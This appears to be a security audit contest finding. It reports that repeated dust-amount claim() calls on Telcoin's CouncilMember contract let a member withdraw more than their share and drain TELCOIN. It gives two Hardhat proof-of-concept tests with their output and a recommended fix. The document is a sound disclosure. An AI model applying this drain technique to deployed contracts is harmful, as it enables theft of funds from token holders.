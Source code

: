 Atomic Azure Yeti

high

# TELCOIN can be drained if members claim() dust amount

## Summary
TELCOIN can be drained because` claim()` mtehod allow the withdrawal of the dust balance

## Vulnerability Detail
poc 1
```solidity
describe("my poc",()=>{
            it("test claim",async ()=>{
                await expect(councilMember.mint(member.address));
                await expect(councilMember.mint(support.address));
                
              //test poc2
                for (let i=0;i<100;){
                    await expect(councilMember.connect(member).claim(0,0)).to.not.reverted;
                    i++;
                }
                await expect(councilMember.connect(member).claim(0, 5000)).to.not.reverted;
                 
                console.log('memeber telcoin balance:',await telcoin.balanceOf(member.address));
                console.log(await telcoin.balanceOf(await councilMember.getAddress()));
            } )
        })

      my poc
memeber telcoin balance: 5000n
5200n
```
poc 2

```solidity
describe("my poc",()=>{
            it("test claim",async ()=>{
                await expect(councilMember.mint(member.address));
                await expect(councilMember.mint(support.address));
                
                //test poc1
                for (let i=0;i<500;){
                    await expect(councilMember.connect(member).claim(0, 20)).to.not.reverted;
                    i++;
                }
                 
                console.log('memeber telcoin balance:',await telcoin.balanceOf(member.address));
                console.log(await telcoin.balanceOf(await councilMember.getAddress()));
            } )
        })

      my poc
memeber telcoin balance: 10000n
40100n
```

## Impact
Due to council member can get more than their share feel free, leads to TELCOIN can be drained.
## Code Snippet
https://github.com/sherlock-audit/2024-01-telcoin/blob/0954297f4fefac82d45a79c73f3a4b8eb25f10e9/telcoin-audit/contracts/sablier/core/CouncilMember.sol#L92

https://github.com/sherlock-audit/2024-01-telcoin/blob/0954297f4fefac82d45a79c73f3a4b8eb25f10e9/telcoin-audit/contracts/sablier/core/CouncilMember.sol#L267
## Tool used

Manual Review

## Recommendation
Redesign the` cliam()` method and `_retrieve() `mtehod ,
tracking the `amount `that  have been claimed by members, or limit the use of `_retrieve() `mtehod